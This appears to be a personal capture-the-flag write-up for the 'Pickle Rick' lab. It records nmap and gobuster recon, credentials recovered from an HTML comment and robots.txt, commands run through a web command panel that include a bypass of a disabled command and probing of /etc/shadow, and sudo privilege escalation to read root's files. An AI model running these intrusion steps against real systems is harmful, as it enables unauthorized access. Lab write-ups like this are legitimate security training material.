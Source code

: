 ==Pickle Rick   Flutter Aug 14 2021==

IP 10.10.128.174
	export IP=10.10.128.174

MYIP 10.10.64.55
	export MYIP=10.10.64.55


## Recon ##

Source code

curl http://$IP > home_source

Comment on line 28-34

'''
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
'''

Found username: R1ckRul3s


nmap -sV -sC -T5 -oN nmap_initial $IP

'''
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
	ssh-hostkey: 
		2048 83:eb:64:9b:ac:03:cd:94:e7:ba:27:b0:8b:dd:ba:96 (RSA)
  		256 bd:45:f0:1f:4f:fb:28:ec:c5:54:80:2c:33:15:9d:02 (ECDSA)
  		256 2c:b0:51:0e:a6:21:6e:61:91:3a:73:f3:6d:6c:bc:95 (EdDSA)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	http-server-header: Apache/2.4.18 (Ubuntu)
	http-title: Rick is sup4r cool
'''


gobuster dir -u http://$IP -w directory-list-2.3-medium.txt -o gobuster_$IP

'''
/login.php (Status: 200)
/index.html (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/robots.txt (Status: 200)
/denied.php (Status: 302)
/server-status (Status: 403)
/clue.txt (Status: 200)
'''


/clue.txt

'''
Look around the file system for the other ingredient.
'''


/robots.txt

'''
Wubbalubbadubdub
'''
	uhhh... okay then, pass or user?


/login.php
	it's a login page


Trying to log in with R1ckRul3s:Wubbalubbadubdub
	Success!
	Redirect to portal.php


## Intrusion ##

/portal.php
	Command Panel

CPanel> uname;whoami;id;pwd
	Linux
	www-data
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	/var/www/html

CPanel> ls -la
	drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
	drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
	-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
	drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
	-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
	-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
	-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
	-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
	-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
	-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt

CPanel> cat Sup3rS3cretPickl3Ingred.txt
	Command disabled

CPanel> less Sup3rS3cretPickl3Ingred.txt
	**Flag Found**
	mr. meeseek hair

CPanel> ls -la /home
	drwxrwxrwx  2 root   root   4096 Feb 10  2019 rick
	drwxr-xr-x  4 ubuntu ubuntu 4096 Feb 10  2019 ubuntu

CPanel> ls -la /home/rick
	-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients

CPanel> file /home/rick/second\ ingredients
	/home/rick/second ingredients: ASCII text

CPanel> less /home/rick/second\ ingredients
	**Flag Found**
	1 jerry tear


## PrivEsc ##

CPanel> ls -la /etc/passwd; ls -la /etc/shadow
	-rw-r--r-- 1 root root 1615 Feb 10  2019 /etc/passwd
	-rw-r----- 1 root shadow 878 Aug 14 09:59 /etc/shadow
eh not much new info here

CPanel> sudo -l
	(ALL) NOPASSWD: ALL
oh, well that makes things easy


CPanel> sudo ls -la /root
	drwx------  4 root root 4096 Feb 10  2019 .
	drwxr-xr-x 23 root root 4096 Aug 14 09:59 ..
	-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
	-rw-r--r--  1 root root  148 Aug 17  2015 .profile
	drwx------  2 root root 4096 Feb 10  2019 .ssh
	-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
	drwxr-xr-x  3 root root 4096 Feb 10  2019 snap

CPanel> sudo less /root/3rd.txt
	**Flag found**
	fleeb juice


## Credentials Gathered ##

R1ckRul3s:Wubbalubbadubdub during Recon